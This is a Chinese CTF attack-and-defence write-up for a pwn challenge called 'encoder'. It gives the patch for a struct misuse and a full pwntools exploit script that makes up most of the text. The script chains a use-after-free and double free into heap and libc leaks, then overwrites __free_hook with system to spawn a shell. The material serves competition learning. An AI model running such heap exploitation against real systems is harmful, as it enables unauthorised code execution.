



# 18届软件攻防赛现场赛awdp-先知社区

> **来源**: https://xz.aliyun.com/news/17398  
> **文章ID**: 17398

---

# 2025-18届软件攻防赛现场赛

## 题目名称：encoder

赛场唯一一道pwn题的fix与break分析，附件:

## fix



结构体：

```
00000000 struct su // sizeof=0x20
00000000 {
00000000     int size;
00000004     char data[16];
00000014     // padding byte
00000015     // padding byte
00000016     // padding byte
00000017     // padding byte
00000018     void *ptr;
00000020 };
```

修复结构体很容易就发现，在upload函数内，不论是否size大于0x10，最后read的地址都是结构体内的堆地址处。但是按理说size小于应该写在bss上的结构体.data内。所以如下修复即可：



fix为：



## break

break思路：

```
      if ( !memcmp(data, "RLE
", 4uLL) )
      {
        if ( *(data + 1) <= 0x26666u )
        {
          sum = *&data[*(data + 1) + 8];
          ptr = malloc((*(data + 1) << 6));
          v6 = malloc_usable_size(ptr);
          printf("size: %d
", v6);
          v4 = decode_0(data + 8, sum, ptr);
          if ( st[idx].size > 0x10u )
            free(st[idx].ptr);
          st[idx].size = v4;
          if ( st[idx].size <= 0x10u )
          {
            memcpy(st[idx].data, ptr, st[idx].size);
            free(ptr);
          }
          else
          {
            st[idx].ptr = ptr;
          }
        }
        else
        {
          puts("Invalid length");
        }
```

decode在解密数据后可以进行一次free，解密后的size小于0x10可以避免对地址指针被ptr覆盖，这样可以造成UAF漏洞

加上fix的漏洞：

```
    if ( size <= 16 )
    {
      ptr = st[idx].ptr;
    }
    else{
    ......
    }
    st[idx].size = ize;
    printf("FileData: ");
    while ( v2 < ize )
    {
      v1 = 256;
      if ( ize - v2 <= 256 )
        v1 = ize - v2;
      v6 = read(0, &ptr[v2], v1);
      if ( v6 <= 0 )
        break;
      v2 += v6;
    }
```

当我们已经在该idex的结构体上申请过堆地址后，再次申请size小于0x10即可覆盖该chunk的前十六字节。

结合这两个漏洞，decode造成UAF，upload利用UAF覆盖fd造成double\_free漏洞。然后利用double\_free让两个结构体堆地址指向同一chunk，free之后即可拿到堆地址和libc地址。修改tcach的fd为free钩子。

#### EXP:

```
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

#context(os = 'linux', arch = 'amd64', log_level = 'debug')
# context(os = 'linux', arch = 'amd64', log_level = 'debug')
#context.terminal = ['tmux', 'splitw', '-h']

menu = 0x00000000000013C9
encode0 = 0x0000000000018F9
decode0 = 0x0000000000002084

file_name = './pwn'
b_string ="b main
"
b_slice = [menu]
pie = 1
for i in b_slice:
    if type(i) == int and pie:
        b_string += f"b *$rebase({i})
"
    elif type(i) == int :
        b_string += f"b *{hex(i)}
"
    else :
        if type(i) == str:
            b_string += f"b *"+i+f"
"
#1 => attach
#2 => debug
#3 => remote
choice = 1
if choice == 1 :
    p = process(file_name)
    # gdb.attach(p,b_string)
    print(f"Break_point:
"+b_string)
    
elif choice == 2 :
    p = gdb.debug(file_name,b_string)
    print(f"Break_point:
"+b_string)
    
elif choice == 3 :
    ip_add ="nc1.ctfplus.cn"
    port = 39169
    print("[==^==] remote : "+ip_add+str(port))
    p = remote(ip_add,port)

#-----------------------------------------------------------------------------------------
rv = lambda x            : p.recv(x)
rl = lambda a=False      : p.recvline(a)
ru = lambda a,b=True     : p.recvuntil(a,b)
rn = lambda x            : p.recvn(x)
sd = lambda x            : p.send(x)
sl = lambda x            : p.sendline(x)
sa = lambda a,b          : p.sendafter(a,b)
sla = lambda a,b         : p.sendlineafter(a,b)
#u32 = lambda             : u32(p.recv(4).ljust(4,b'\x00'))
#u64 = lambda             : u64(p.recv(6).ljust(8,b'\x00'))
inter = lambda           : p.interactive()
debug = lambda text=None : gdb.attach(p, text)
lg = lambda s,addr       : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s,addr))
pad = lambda a,b           : print("\x1B[1;36m[+]{} =====> 0x%x \x1B[0m".format(a)%b)
#-----------------------------------------------------------------------------------------

def menu(num):
    sla("5. release
",str(num))
def add(idx,size,paylaod=b''):
    menu(1)
    sla("FileIdx: ",str(idx))
    sla("FileSize: ",str(size))
    sa("FileData: ",paylaod)
    print("====add chunk====")

def show(idx):
    menu(2)
    sla("FileIdx: ",str(idx))
    print("====show chunk====")
    
    
def free(idx):
    menu(5)
    sla("FileIdx: ",str(idx))
    print("====free chunk====")
    
def encode(idx):
    menu(3)
    sla("FileIdx: ",str(idx))
    print("====encode chunk====")
    
def decode(idx):
    menu(4)
    sla("FileIdx: ",str(idx))
    print("====decode chunk====")
    
def get_byte(num):
    payload = b''
    for i in range(num):
        payload += p8(i)
    return payload

payload = b'RLE
'+p32(4)+b'\x03\x01\x03\x02'+p32(9)

for i in range(7):
    add(0x10+i,0x68,b'a'*0x68)
add(0,0x68,b'a'*0x68)
add(1,0x68,b'a'*0x68)
add(2,0x68,payload+b'a'*0x10+p64(0x31)+p64(0x71)+b'a'*0x40)
add(3,0x68,b'a'*0x68)

for i in range(7):
    free(0x10+i)
free(0)
free(1)

decode(2)
free(3)
add(2,0x100,b'a'*0x100)
free(2)
for i in range(6):
    add(0x10+i,0x68,b'a'*0x68)
add(0x16,0x68,payload+b'a'*0x58)

add(0,0x68,b'a'*0x68)
add(1,0x68,b'a'*0x68)
add(3,0x68,payload+b'a'*0x58)

decode(3)
show(0)
ru("a"*8)
heap = u64(rv(8))-0x10
pad("heap",heap)
pad("show target addr",heap+0x690)
add(3,0x10,p64(heap+0x620)+p64(0))

add(0x17,0x68,b'a'*0x68)
add(0x18,0x68,b'a'*0x68)

for i in range(6):
    free(0x10+i)
decode(0x16)

gdb.attach(p,b_string)
free(1)
free(0x17)

add(1,0x500,b'a'*0x500)
show(0)
rv(10)
libc = u64(rv(8))-0x1eccb0
pad("libc",libc)

free_hook = libc + 0x1eee48
system = libc + 0x052290
add(0x16,0x8,p64(free_hook))
add(7,0x68,b'a'*+0x68)
add(8,0x68,p64(system)+b'\x00'*0x60)

add(9,0x50,b'/bin/sh\x00'+b'a'*0x48)
free(9)    

inter()

```
